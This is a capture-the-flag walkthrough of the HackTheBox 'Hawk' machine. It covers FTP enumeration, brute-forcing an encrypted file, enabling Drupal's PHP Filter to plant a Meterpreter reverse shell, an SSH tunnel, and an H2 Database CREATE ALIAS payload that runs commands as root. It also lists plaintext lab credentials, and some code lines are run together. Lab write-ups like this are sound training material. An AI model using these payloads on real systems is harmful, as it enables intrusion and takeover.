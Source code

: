 ```yaml
---
layout: post
title: HackTheBox - Hawk
categories: htb
permalink: /htb-hawk
---
```


![BoxInfo]({{ site.baseurl }}/assets/htb-images/hawk/infocard.png)

Starting off with a nmap scan to enumerate ports, thus to determine the potential attack vector !

![Nmap]({{ site.baseurl }}/assets/htb-images/hawk/InitialScan-Nmap.png)

FTP is open and the header shows that I can login anonymously and that there is a folder called "messages".  Using the command:

```shell
 ftp 10.10.10.102 21
```

I logged in to FTP with username: Anonymous & empty password. After listing the files in the folder messages, I didn't see anything, but after listing all files with hidden files as well, I was able to find a hidden file called: ".drupal.txt.enc".

![FTP]({{ site.baseurl }}/assets/htb-images/hawk/FTPHiddenFile.png)

By the name of the file I was able to determine that it was storing an encrypted information. I had to decrypt it somehow but first I had to see what was the cipher used to encrypt the informaiton. Once I checked the file by running "file .drupal.txt.enc", I noticed that it is Base64 encoded but openssl encrypted with salted password. It was easy to decode the base64 by just running:

```shell
base64 -d .drupal.txt.enc > decrypted.txt.enc
```

I did some google research and found a tool which is used to bruteforce openssl salted passwords. [Link to tool](https://github.com/glv2/bruteforce-salted-openssl)
To bruteforce the password, I ran:

```shell
#Dependencies to download !
#dh-autoreconf:

apt-get install dh-autoreconfmv .drupal.txt.enc 

drupal.txt.encbase64 -d drupal.txt.enc > decrypted.txt.encbruteforce-salted-openssl -t 6 -f 

/usr/share/wordlists/rockyou.txt -d sha256 -c AES-256-CBCdecrypted.txt.enc

#Password: friends
```

![BruteF-Passwd]({{ site.baseurl }}/assets/htb-images/hawk/BruteF-Passwd.png)

Now I had the password and it was time to decrypt the file and read the message.

```shell
#OpenSSL

openssl enc -aes-256-cbc -d -salt -base64 -in .drupal.txt.enc -md sha256 -k friends

#Drupal Admin Panel Account
#Password: PencilKeyboardScanner123
```

![Decryption-Drupal]({{ site.baseurl }}/assets/htb-images/hawk/Decryption-Drupal.txt.enc.png)

Judging by the name of the file, I had to use this password for the Drupal web server. I accessed it on port 80. After accessing Drupal, I immediately saw a login form and I tried to login with username: admin & the decrypted password from the openssl file and it worked !

![Drupal-Admin-Acces]({{ site.baseurl }}/assets/htb-images/hawk/Drupal-Admin-Acces.png)

So after doing some enumeration and looking at the HTB forum for hints I found that H2 Database which runs on port 8082 has some vulnerabilities but they didn't worked ! I went back to the Drupal web page and started enumerating it ! Section modules on the top was pretty interesting and i was able to find a module called “PHP Filter”, which when turnedon would allow me to execute PHP code, so that means I will be able to get a reverse shell ! So I accessed the modules and enabled PHP Filtering !

![phpfilter-module-drupal]({{ site.baseurl }}/assets/htb-images/hawk/phpfilter-module-drupal.png)

After enabling the PHP Filter module, I created a new article page and changed the text format to be PHP Code, after that I used msfvenom PHP reverse shell sample code by generating one and adding it in the body section, then I saved the article and accessed it and I got a reverse shell !

```shell
#In Metasploit

use multi/handlerset payload php/meterpreter/reverse_tcp
set lhost <IP>
set lport <>
exploit -j -z
```

![Meterpreter-Session]({{ site.baseurl }}/assets/htb-images/hawk/Meterpreter-Session.png)

So after doing some enumeration in the root folder of the system i wasn't able to find anything as credentials for user daniel, so I went back to where Drupal was install and checked in sites/default/... for some configuration files that may contain passwords ! This [link](https://www.drupal.org/docs/7/install/step-3-create-settingsphp-and-the-files-directory) helped me to understand what to look for. So in sites/default/settings.php I have found the password for user daniel ! Now I just had to log in as daniel through ssh !

![Settings.php-Daniel-Creds]({{ site.baseurl }}/assets/htb-images/hawk/Settings.php-Daniel-Creds.jpg)

When I logged in as daniel, I was spawned in python3 interactive mode shell and I had to espace it and get bash or sh. To do this I used the python one line command to get proper TTY shell, by separating each command to be able to run then in the python interactive shell. 

```python
#In Terminal
import pty;pty.spawn("/bin/bash")

#Python interactive shell escaped !
```

After I got a bash shell, I started enumerating the machine to find interesting information which would allow me to privilege escalate to root. When I enumerated the machine with user daniel, I wasn't able to find anything interesting, so I went back to the initial foothold and nmap scan and the target for me was now the H2 Console. When I tried to access the server on port 8082 it said that it didn't allow remote connections, which lead to my next step, to tunnel the connection to my machine and then access H2 Console ! For tunneling the connection, this [website](https://razorsql.com/articles/configuring_ssh_tunnels_database_connections.html) helped me to understand how to do it.

```shell
#In Terminal
#To get the tunnel to work through SSH
$ ssh -L 8083:10.10.10.102:8082 daniel@10.10.10.102

#Password: drupal4hawk
#Tunnel works !
```

Once I got the tunnel up and running I accessed the H2 Console on localhost with the port I set it to run on. I saw another login form.

![H2-Console-Accessed]({{ site.baseurl }}/assets/htb-images/hawk/H2-Console-Accessed.jpg)

With some questioning and testing here, I was able to login, but the trick to login to H2 Console was that I had to set the database to run in memory. I gathered some useful information before I accessed the H2 Console, such as potential usernames and passwords.

```shell
#Usernames: drupal, admin, sa, root, daniel
#Passwords: PencilKeyboardScanner123, drupal4hawk, xxj31ZMTZzkVA
```

A website that helped me to get the memory database is this one [Link](https://www.javatips.net/blog/h2-in-memory-database-example). So once I tried all of the credentials I found, the one combo that worked and worked for SSH or daniel account !

```shell
#Creds for H2 Console
User Name: daniel
Password: drupal4hawk
```

![H2Console-Terminal
]({{ site.baseurl }}/assets/htb-images/hawk/H2Console-Terminal.jpg)

Earlier I have found a great blog expaining a vulnerability in H2 Database where if no user was set, the database will use the default one **(sa:*blank*)**, so by accessing the H2 Console, I could send commands and get a reverse shell !
Link to the blog exaplaining the vulnerability and exploit -> <https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html>.
So, I was able to get the root flag by using the exploit code this person has written. Since the H2 Database is running as root user I just have to enter the command, make a small changeto the exploit code and get the root flag !

```sql
#Exploit code to output “id”

CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException
{ java.util.Scanner s = newjava.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream())
.useDelimiter("\A"); returns.hasNext() ? s.next() : ""; }$$;CALL SHELLEXEC('id')
```

So by changing ‘id’ in line CALL SHELLEXEC to ‘cat /root/root.txt’ I am able to get the root flag !

![ExploitCode-RootFlag]({{ site.baseurl }}/assets/htb-images/hawk/ExploitCode-RootFlag.jpg)